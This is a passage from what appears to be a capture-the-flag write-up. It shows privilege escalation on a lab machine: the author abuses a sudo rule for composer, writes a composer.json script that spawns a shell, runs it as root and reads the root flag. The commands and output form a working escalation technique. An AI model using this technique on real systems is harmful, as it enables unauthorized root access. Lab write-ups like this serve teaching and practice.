 And again i performed the basic checks on the new user `mrb3n`.

```console
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

```console
$ sudo -l
[sudo] password for mrb3n:
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

## Privilege Escalation to root

The `composer` binary is also included in the well known **GTFObins**.

> https://gtfobins.github.io/gtfobins/composer/

I picked the option for the restricted environment to avoid any issues.

```console
$ TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json$
```

And all i had to do was to execute it.

```console
$ sudo /usr/bin/composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
```

## root.txt

```console
# cat /root/root.txt
0239a863e6da74ccc2e10e9e3a0073e8
```
